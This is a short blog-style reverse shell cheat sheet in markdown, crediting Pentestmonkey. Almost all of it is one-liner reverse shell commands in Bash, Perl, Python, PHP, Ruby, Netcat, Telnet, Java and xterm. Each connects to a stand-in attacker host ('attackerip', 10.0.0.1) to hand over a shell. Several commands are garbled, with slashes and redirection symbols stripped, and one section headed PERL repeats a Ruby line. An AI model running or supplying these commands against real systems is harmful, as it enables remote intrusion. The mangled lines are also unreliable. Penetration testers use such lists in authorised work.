 ```yaml
---
layout: single
title: Reverse Shell Cheat Sheet
excerpt: "List of reverse shell commands."
date: 2020-04-28
classes: wide
header:
  teaser: /assets/images/rev-shell-cheat-sheet/rev-shell-001.png
  teaser_home_page: true
  icon: /assets/images/hacker-vector-6.png
categories:
  - cheat sheet
tags:
  - reverse shell
---
```


![](/assets/images/rev-shell-cheat-sheet/rev-shell-001.png)

## References
Pentestmonkey
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


## Bash

```
bash -i & devtcp10.0.0.18080 0&1
```

```
exec /bin/bash 0&0 2>&0
```

```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

## PERL

```
perl -e 'use Socket;$i=10.0.0.1;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(tcp));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,&S);open(STDOUT,&S);open(STDERR,&S);exec(binsh -i);};'
```

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.0.0.1,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([binsh,-i]);'
```

## PHP

```php
php -r '$sock=fsockopen(10.0.0.1,1234);exec(binsh -i &3 &3 2&3);'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## PERL

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

## Netcat

```
nc -e binsh 10.0.0.1 1234
```

```
nc -c /bin/sh attackerip 4444
```

```
/bin/sh | nc attackerip 4444
```

```
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

## Java

```
r = Runtime.getRuntime()
p = r.exec([binbash,-c,exec 5devtcp10.0.0.12002;cat &5  while read line; do $line 2&5 &5; done] as String[])
p.waitFor()
```

## xterm

```
xterm -display 10.0.0.11
Xnest 1
```
